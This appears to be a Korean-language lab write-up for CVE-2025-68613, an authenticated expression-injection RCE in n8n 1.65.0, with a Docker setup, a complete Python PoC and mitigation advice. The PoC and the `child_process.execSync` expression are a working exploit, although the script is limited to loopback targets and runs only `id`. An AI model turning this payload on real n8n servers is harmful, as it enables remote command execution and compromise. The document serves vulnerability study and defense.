







# CVE-2025-68613: n8n Workflow Expression Injection RCE

## 1. 취약점 요약

CVE-2025-68613은 오픈소스 워크플로 자동화 플랫폼 **n8n**의 워크플로 표현식 평가 기능에서 발생하는 원격 코드 실행(Remote Code Execution, RCE) 취약점이다.

n8n은 워크플로 노드의 입력값에서 `={{ ... }}` 형태의 JavaScript 표현식을 사용할 수 있다. 취약한 버전에서는 인증된 사용자가 작성한 표현식이 기반 Node.js 런타임과 충분히 격리되지 않은 실행 컨텍스트에서 평가될 수 있다. 공격자는 조작된 표현식으로 Node.js의 `process` 객체와 모듈 로더에 접근한 뒤 `child_process` 모듈을 호출하여 n8n 프로세스 권한으로 운영체제 명령을 실행할 수 있다.

본 실습에서는 취약 버전인 **n8n 1.65.0**을 사용하고, 정상 로그인 후 워크플로를 생성·실행하여 컨테이너 내부에서 `id` 명령이 실행되는 것을 확인하였다.

| 항목 | 내용 |
|---|---|
| CVE | CVE-2025-68613 |
| 취약점 유형 | Workflow Expression Injection을 통한 RCE |
| 실습 버전 | n8n 1.65.0 |
| 영향 버전 | `0.211.0 이상 1.120.4 미만`, `1.121.0` |
| GitHub CNA CVSS | **9.9 Critical** |
| NVD CVSS | **8.8 High**

## 2. 환경 구성

### 2.1 구성 개요

`node:20.18.0-bookworm-slim`을 기반으로 Dockerfile에서 **n8n 1.65.0을 직접 설치**하고, 컨테이너 시작 시 실습용 소유자 계정을 자동 생성한다.

| 구성 요소 | 설정 |
|---|---|
| Base image | `node:20.18.0-bookworm-slim` |
| Node.js | 20.18.0 |
| n8n | 1.65.0 |
| 컨테이너 OS | Debian Bookworm slim |
| 실행 사용자 | `node` 비권한 사용자 |
| 서비스 포트 | `127.0.0.1:5678` |
| 시간대 | `Asia/Seoul` |
| PoC 언어 | Python 3.10 이상 |
| Python 의존성 | `requests==2.32.4` |

### 2.2 디렉터리 구조

```text
CVE-2025-68613/
├── .dockerignore
├── Dockerfile
├── docker-compose.yml
├── docker-entrypoint.sh
├── poc.py
├── requirements.txt
├── README.md
└── images/
    ├── 01-docker-build.png
    ├── 02-container-healthy.png
    ├── 03-n8n-version.png
    ├── 04-login.png
    ├── 05-poc-result.png
    ├── 06-workflow.png
    └── 07-container-id.png
```

### 2.3 파일별 역할

- `Dockerfile`: Node.js 기반 이미지에 n8n 1.65.0을 직접 설치하고 버전을 빌드 단계에서 검증.
- `docker-compose.yml`: 포트, 환경 변수, 볼륨, healthcheck 및 빌드 인자를 정의.
- `docker-entrypoint.sh`: n8n REST API가 준비될 때까지 대기한 후 고정된 실습용 소유자 계정을 자동 생성.
- `poc.py`: 로그인, 워크플로 생성, 악성 표현식 실행, 실행 결과 조회를 자동화.
- `requirements.txt`: PoC 실행에 필요한 Python 패키지 버전 고정.

### 2.4 실습 계정

| 항목 | 값 |
|---|---|
| URL | `http://localhost:5678` |
| Email | `lab@example.com` |
| Password | `N8nLab!2026` |
| First Name | `CVE` |
| Last Name | `Lab` |

## 3. 취약 조건

1. 대상이 취약한 n8n 버전을 사용해야 한다.
2. 공격자가 n8n에 정상적으로 로그인할 수 있어야 한다.
3. 공격자 계정에 워크플로를 생성하거나 수정할 권한이 있어야 한다.
4. 공격자가 입력한 워크플로 표현식이 서버 측에서 평가되어야 한다.
5. 명령은 n8n 프로세스가 가진 운영체제 권한으로 실행된다.

## 4. 취약점 동작 원리

PoC가 삽입하는 핵심 표현식.

```javascript
={{ (function(){ return this.process.mainModule
  .require('child_process')
  .execSync('id')
  .toString() })() }}
```

1. n8n이 Edit Fields 노드의 `result` 값을 표현식으로 인식한다.
2. 표현식 내부의 `this`를 통해 Node.js 런타임의 `process` 객체에 접근한다.
3. `process.mainModule.require()`로 `child_process` 모듈을 불러온다.
4. `execSync('id')`가 n8n 서버 프로세스에서 실행된다.
5. 명령 출력이 워크플로 실행 결과의 `result` 필드로 반환된다.
6. PoC가 실행 결과를 조회하고 n8n의 flatted 직렬화 형식을 해석하여 출력한다.

## 5. 재현 절차

### 5.1 사전 요구 사항

- Docker Desktop 또는 Docker Engine
- Docker Compose v2
- Python 3.10 이상
- Git

### 5.2 기존 환경 완전 초기화

기존 볼륨에 계정 및 워크플로 정보가 남아 있으면 초기화 결과가 달라질 수 있으므로 다음 명령으로 제거.

```powershell
docker compose down -v --remove-orphans
```

### 5.3 취약 환경 빌드 및 실행

```powershell
docker compose up -d --build
```



### 5.4 컨테이너 상태 확인

```powershell
docker compose ps
```



### 5.5 n8n 버전 확인

```powershell
docker compose exec n8n n8n --version
```

예상 결과:

```text
1.65.0
```



### 5.6 웹 로그인 확인

브라우저에서 다음 주소에 접속한다.

```text
http://localhost:5678
```

다음 계정으로 로그인한다.

```text
Email: lab@example.com
First Name: CVE
Last Name: Lab
Password: N8nLab!2026
```



Docker 환경이 정상적으로 올라온 직후에는 계정만 생성되어 있고 워크플로가 없는 상태가 정상이다. 워크플로는 다음 단계에서 PoC가 REST API를 통해 자동으로 생성한다.

### 5.7 Python 의존성 설치

```powershell
python -m pip install -r requirements.txt
```

### 5.8 PoC 실행

```powershell
python poc.py
```

PoC는 다음 작업을 자동으로 수행한다.

1. 대상 URL이 loopback 주소인지 검사한다.
2. `lab@example.com` 계정으로 로그인한다.
3. `Manual Trigger → Edit Fields` 워크플로를 생성한다.
4. Edit Fields 노드에 명령 실행 표현식을 삽입한다.
5. 워크플로를 실행한다.
6. 실행 상태가 끝날 때까지 조회한다.
7. 실행 데이터에서 `id` 명령 결과를 추출한다.

PoC가 생성한 워크플로:



### 5.9 컨테이너 내부 사용자 비교

PoC 출력이 실제 컨테이너 내부 명령 실행 결과인지 비교한다.

```powershell
docker compose exec n8n id
```



### 5.10 실습 종료

컨테이너만 종료하고 데이터를 보존하려면 다음 명령을 사용한다.

```powershell
docker compose down
```

볼륨까지 제거하여 완전히 초기화하려면 다음 명령을 사용한다.

```powershell
docker compose down -v --remove-orphans
```

## 6. PoC 코드

### `poc.py`

<details>
<summary>전체 코드 펼치기</summary>

```python
#!/usr/bin/env python3
"""
CVE-2025-68613 authenticated PoC for the local Docker lab.

Target restriction:
- Only localhost, 127.0.0.0/8, or ::1 are accepted.
- The PoC executes only the harmless `id` command.
"""

from __future__ import annotations

import argparse
import ipaddress
import json
from pathlib import Path
import sys
import time
import uuid
from typing import Any
from urllib.parse import urlparse

import requests


TRIGGER_NAME = "When clicking 'Test workflow'"
SET_NODE_NAME = "Edit Fields"
DEFAULT_URL = "http://127.0.0.1:5678"
DEFAULT_EMAIL = "lab@example.com"
DEFAULT_PASSWORD = "N8nLab!2026"

# n8n stores expressions in workflow JSON with a leading "=".
EXPRESSION = (
    "={{ (function(){ return this.process.mainModule"
    ".require('child_process').execSync('id').toString() })() }}"
)


class PocError(RuntimeError):
    """Raised when a PoC step fails."""


def ensure_local_target(base_url: str) -> str:
    """Refuse non-loopback targets."""
    parsed = urlparse(base_url)
    if parsed.scheme not in {"http", "https"}:
        raise PocError("URL scheme must be http or https.")

    hostname = parsed.hostname
    if not hostname:
        raise PocError("Target hostname is missing.")

    if hostname.lower() == "localhost":
        return base_url.rstrip("/")

    try:
        address = ipaddress.ip_address(hostname)
    except ValueError as exc:
        raise PocError(
            "This PoC accepts only localhost or a loopback IP address."
        ) from exc

    if not address.is_loopback:
        raise PocError("Remote targets are blocked. Use the local Docker lab only.")

    return base_url.rstrip("/")


def response_json(response: requests.Response) -> dict[str, Any]:
    """
    Decode an n8n REST response.

    n8n 1.65.0 wraps successful REST responses as:
        {"data": <actual response>}
    """
    try:
        payload = response.json()
    except ValueError as exc:
        body = response.text[:800]
        raise PocError(
            f"Expected JSON but received HTTP {response.status_code}: {body}"
        ) from exc

    if not isinstance(payload, dict):
        raise PocError(
            f"Unexpected JSON response type: {type(payload).__name__}"
        )

    # Remove n8n's common top-level REST response wrapper.
    data = payload.get("data", payload)

    if not isinstance(data, dict):
        raise PocError(
            "Unexpected n8n response body: "
            f"{json.dumps(payload, ensure_ascii=False)[:800]}"
        )

    return data


def check_response(response: requests.Response, step: str) -> None:
    if response.ok:
        return

    body = response.text[:1200]
    raise PocError(f"{step} failed: HTTP {response.status_code}\n{body}")


def login(
    session: requests.Session,
    base_url: str,
    email: str,
    password: str,
    timeout: float,
) -> None:
    response = session.post(
        f"{base_url}/rest/login",
        json={"email": email, "password": password},
        timeout=timeout,
    )
    check_response(response, "Login")

    if not session.cookies:
        raise PocError("Login returned success but no authentication cookie was stored.")

    user = response_json(response)
    print(f"[+] Login succeeded: {user.get('email', email)}")


def build_workflow() -> dict[str, Any]:
    trigger_id = str(uuid.uuid4())
    set_id = str(uuid.uuid4())
    assignment_id = str(uuid.uuid4())

    return {
        "name": "CVE-2025-68613 Authenticated RCE PoC",
        "active": False,
        "nodes": [
            {
                "parameters": {},
                "id": trigger_id,
                "name": TRIGGER_NAME,
                "type": "n8n-nodes-base.manualTrigger",
                "typeVersion": 1,
                "position": [260, 300],
            },
            {
                "parameters": {
                    "assignments": {
                        "assignments": [
                            {
                                "id": assignment_id,
                                "name": "result",
                                "value": EXPRESSION,
                                "type": "string",
                            }
                        ]
                    },
                    "options": {},
                },
                "id": set_id,
                "name": SET_NODE_NAME,
                "type": "n8n-nodes-base.set",
                "typeVersion": 3.4,
                "position": [500, 300],
            },
        ],
        "connections": {
            TRIGGER_NAME: {
                "main": [
                    [
                        {
                            "node": SET_NODE_NAME,
                            "type": "main",
                            "index": 0,
                        }
                    ]
                ]
            }
        },
        "settings": {
            "executionOrder": "v1",
        },
        "tags": [],
    }


def create_workflow(
    session: requests.Session,
    base_url: str,
    timeout: float,
) -> dict[str, Any]:
    response = session.post(
        f"{base_url}/rest/workflows",
        json=build_workflow(),
        timeout=timeout,
    )
    check_response(response, "Workflow creation")

    workflow = response_json(response)
    workflow_id = workflow.get("id")
    if not workflow_id:
        raise PocError("Workflow creation succeeded but no workflow ID was returned.")

    print(f"[+] Workflow created: {workflow_id}")
    return workflow


def workflow_for_execution(created: dict[str, Any]) -> dict[str, Any]:
    """
    Keep only workflow fields needed by the manual execution endpoint.
    This avoids sending UI-only metadata such as scopes or owner information.
    """
    allowed = {
        "id",
        "name",
        "active",
        "nodes",
        "connections",
        "settings",
        "staticData",
        "pinData",
        "versionId",
        "meta",
    }
    return {key: value for key, value in created.items() if key in allowed}


def start_execution(
    session: requests.Session,
    base_url: str,
    workflow: dict[str, Any],
    timeout: float,
) -> str:
    workflow_id = str(workflow["id"])

    payload = {
        "workflowData": workflow_for_execution(workflow),
        "runData": {},
        "startNodes": [
            {
                "name": TRIGGER_NAME,
                "sourceData": None,
            }
        ],
    }

    response = session.post(
        f"{base_url}/rest/workflows/{workflow_id}/run",
        params={"partialExecutionVersion": "0"},
        json=payload,
        timeout=timeout,
    )
    check_response(response, "Workflow execution")

    result = response_json(response)
    execution_id = result.get("executionId")
    if execution_id is None:
        raise PocError(f"No execution ID returned: {json.dumps(result, ensure_ascii=False)}")

    print(f"[+] Execution started: {execution_id}")
    return str(execution_id)


class _FlattedReference(str):
    """Marker for a string that represents an index in flatted data."""


def _mark_flatted_strings(value: Any) -> Any:
    if isinstance(value, str):
        return _FlattedReference(value)

    if isinstance(value, list):
        return [_mark_flatted_strings(item) for item in value]

    if isinstance(value, dict):
        return {
            key: _mark_flatted_strings(item)
            for key, item in value.items()
        }

    return value


def parse_flatted(text: str) -> Any:
    """
    Decode the circular-JSON format produced by the JavaScript `flatted`
    package used by n8n 1.65.0 for saved execution data.
    """
    decoded = json.loads(text)
    marked = _mark_flatted_strings(decoded)

    if not isinstance(marked, list) or not marked:
        raise ValueError("The value is not a valid flatted array.")

    # Top-level string entries are literal values. Nested string entries are
    # references to indexes in this table.
    table: list[Any] = [
        str(item) if isinstance(item, _FlattedReference) else item
        for item in marked
    ]

    root = table[0]
    visited: set[int] = set()

    def revive(container: Any) -> Any:
        if not isinstance(container, (dict, list)):
            return container

        container_id = id(container)
        if container_id in visited:
            return container
        visited.add(container_id)

        if isinstance(container, dict):
            entries = list(container.items())
            for key, value in entries:
                container[key] = resolve(value)
        else:
            for index, value in enumerate(list(container)):
                container[index] = resolve(value)

        return container

    def resolve(value: Any) -> Any:
        if isinstance(value, _FlattedReference):
            reference = str(value)

            if not reference.isdigit():
                raise ValueError(
                    f"Invalid flatted reference: {reference!r}"
                )

            table_index = int(reference)
            if table_index < 0 or table_index >= len(table):
                raise ValueError(
                    f"Flatted reference is out of range: {table_index}"
                )

            target = table[table_index]
            return revive(target)

        if isinstance(value, (dict, list)):
            return revive(value)

        return value

    return revive(root)


def parse_nested_json(value: Any) -> Any:
    """
    Decode n8n execution data.

    n8n 1.65.0 normally returns execution.data as a flatted string. Ordinary
    JSON decoding is retained as a fallback for other response fields.
    """
    if not isinstance(value, str):
        return value

    stripped = value.strip()
    if not stripped or stripped[0] not in "[{":
        return value

    try:
        parsed = parse_flatted(stripped)
        if isinstance(parsed, (dict, list)):
            return parsed
    except (json.JSONDecodeError, ValueError):
        pass

    try:
        return json.loads(stripped)
    except json.JSONDecodeError:
        return value


def extract_result(execution: dict[str, Any]) -> str | None:
    data = parse_nested_json(execution.get("data"))
    if not isinstance(data, dict):
        return None

    result_data = parse_nested_json(data.get("resultData"))
    if not isinstance(result_data, dict):
        return None

    run_data = parse_nested_json(result_data.get("runData"))
    if not isinstance(run_data, dict):
        return None

    node_runs = run_data.get(SET_NODE_NAME)
    if not isinstance(node_runs, list) or not node_runs:
        return None

    last_run = node_runs[-1]
    if not isinstance(last_run, dict):
        return None

    output_data = last_run.get("data")
    if not isinstance(output_data, dict):
        return None

    main = output_data.get("main")
    try:
        result = main[0][0]["json"]["result"]
    except (KeyError, IndexError, TypeError):
        return None

    return str(result)


def extract_error(execution: dict[str, Any]) -> str | None:
    data = parse_nested_json(execution.get("data"))
    if not isinstance(data, dict):
        return None

    result_data = parse_nested_json(data.get("resultData"))
    if not isinstance(result_data, dict):
        return None

    error = result_data.get("error")
    if error is None:
        return None

    if isinstance(error, dict):
        return str(error.get("message") or json.dumps(error, ensure_ascii=False))

    return str(error)


def wait_for_execution(
    session: requests.Session,
    base_url: str,
    execution_id: str,
    request_timeout: float,
    wait_timeout: float,
) -> dict[str, Any]:
    deadline = time.monotonic() + wait_timeout
    last_status = None

    while time.monotonic() < deadline:
        response = session.get(
            f"{base_url}/rest/executions/{execution_id}",
            params={"unflattedResponse": "true"},
            timeout=request_timeout,
        )

        # The execution record may not be queryable immediately.
        if response.status_code == 404:
            time.sleep(0.5)
            continue

        check_response(response, "Execution status query")
        execution = response_json(response)

        status = execution.get("status")
        if status != last_status:
            print(f"[*] Execution status: {status}")
            last_status = status

        if execution.get("finished") is True:
            return execution

        if status not in {None, "new", "running"}:
            return execution

        time.sleep(0.5)

    raise PocError(f"Execution did not finish within {wait_timeout:.1f} seconds.")


def delete_workflow(
    session: requests.Session,
    base_url: str,
    workflow_id: str,
    timeout: float,
) -> None:
    response = session.delete(
        f"{base_url}/rest/workflows/{workflow_id}",
        timeout=timeout,
    )
    check_response(response, "Workflow cleanup")
    print(f"[+] Workflow deleted: {workflow_id}")


def parse_args() -> argparse.Namespace:
    parser = argparse.ArgumentParser(
        description="Authenticated local-lab PoC for CVE-2025-68613"
    )
    parser.add_argument("--url", default=DEFAULT_URL)
    parser.add_argument("--email", default=DEFAULT_EMAIL)
    parser.add_argument("--password", default=DEFAULT_PASSWORD)
    parser.add_argument("--request-timeout", type=float, default=10.0)
    parser.add_argument("--wait-timeout", type=float, default=30.0)
    parser.add_argument(
        "--cleanup",
        action="store_true",
        help="Delete the created workflow after collecting the result.",
    )
    return parser.parse_args()


def main() -> int:
    args = parse_args()

    try:
        base_url = ensure_local_target(args.url)

        with requests.Session() as session:
            session.headers.update(
                {
                    "Accept": "application/json",
                    "Content-Type": "application/json",
                    "User-Agent": "CVE-2025-68613-local-lab-poc/1.0",
                }
            )

            login(
                session,
                base_url,
                args.email,
                args.password,
                args.request_timeout,
            )

            workflow = create_workflow(
                session,
                base_url,
                args.request_timeout,
            )
            workflow_id = str(workflow["id"])

            execution_id = start_execution(
                session,
                base_url,
                workflow,
                args.request_timeout,
            )

            execution = wait_for_execution(
                session,
                base_url,
                execution_id,
                args.request_timeout,
                args.wait_timeout,
            )

            status = execution.get("status")
            result = extract_result(execution)

            if status == "success" and result:
                print("\n[+] CVE-2025-68613 reproduced")
                print("[+] Server-side command output:")
                print(result.rstrip())

                if args.cleanup:
                    delete_workflow(
                        session,
                        base_url,
                        workflow_id,
                        args.request_timeout,
                    )

                return 0

            error = extract_error(execution)

            debug_path = Path("execution-debug.json")
            debug_path.write_text(
                json.dumps(execution, ensure_ascii=False, indent=2, default=str),
                encoding="utf-8",
            )

            raise PocError(
                f"Execution did not produce the expected result.\n"
                f"status={status!r}\n"
                f"error={error!r}\n"
                f"execution_id={execution_id}\n"
                f"debug_file={debug_path}"
            )

    except requests.RequestException as exc:
        print(f"[-] Network error: {exc}", file=sys.stderr)
        return 1
    except PocError as exc:
        print(f"[-] {exc}", file=sys.stderr)
        return 1


if __name__ == "__main__":
    raise SystemExit(main())
```

</details>

## 7. 실행 결과

정상적으로 재현되면 PoC는 다음과 같은 형태의 결과를 출력한다. 워크플로 ID와 실행 ID는 실행할 때마다 달라질 수 있다.

```text
[+] Login succeeded: lab@example.com
[+] Workflow created: <workflow-id>
[+] Execution started: <execution-id>
[*] Execution status: success

[+] CVE-2025-68613 reproduced
[+] Server-side command output:
uid=1000(node) gid=1000(node) groups=1000(node)
```



컨테이너 내부에서 직접 `id`를 실행한 결과도 다음과 같다.

```text
uid=1000(node) gid=1000(node) groups=1000(node)
```

PoC 결과와 `docker compose exec n8n id` 결과의 UID, GID, 사용자명이 동일하다. 따라서 악성 표현식이 클라이언트에서 단순 문자열로 처리된 것이 아니라, **n8n 서버 프로세스 권한으로 컨테이너 내부에서 실행되었음**을 확인할 수 있다.

## 8. 대응 방안

### 8.1 보안 버전으로 업그레이드

가장 확실한 대응은 취약 버전을 제거하는 것이다.

- 1.120.x 계열: 1.120.4 이상
- 1.121.x 계열: 1.121.1 이상
- 가능하면 1.122.0 이상 또는 현재 지원되는 최신 보안 버전 사용

임시 완화 조치만으로는 위험을 완전히 제거할 수 없으므로 업그레이드를 우선해야 한다.

### 8.2 워크플로 권한 최소화

- 워크플로 생성 및 편집 권한을 신뢰할 수 있는 사용자에게만 부여한다.
- 공유 계정 사용을 금지하고 사용자별 계정을 사용한다.
- 퇴사자 또는 불필요한 계정을 즉시 비활성화한다.
- 관리자 권한과 일반 워크플로 편집 권한을 분리한다.

### 8.3 실행 환경 격리

- n8n을 root가 아닌 전용 비권한 사용자로 실행한다.
- 컨테이너에 불필요한 호스트 디렉터리를 마운트하지 않는다.
- Docker 소켓을 컨테이너에 노출하지 않는다.
- 파일 시스템, Linux capabilities, seccomp/AppArmor 정책을 최소 권한으로 구성한다.
- n8n 컨테이너의 외부 통신과 내부망 접근 범위를 제한한다.

### 8.4 자격 증명 보호

- 민감한 값을 이미지나 공개 저장소에 포함하지 않는다.
- 운영 환경에서는 Docker secrets, Kubernetes Secrets 또는 별도 비밀 관리 시스템을 사용한다.
- 침해가 의심되면 n8n 암호화 키, API 키, OAuth 토큰, 데이터베이스 비밀번호를 교체한다.

### 8.5 탐지 및 모니터링

- 비정상적인 워크플로 생성 및 수정 이력을 확인한다.
- 표현식에서 `process`, `mainModule`, `child_process`, `exec`, `spawn`과 같은 문자열 사용을 점검한다.
- n8n 프로세스가 셸이나 시스템 명령을 실행한 흔적을 모니터링한다.
- 비정상적인 외부 통신, 파일 생성, 프로세스 생성 이벤트를 수집한다.
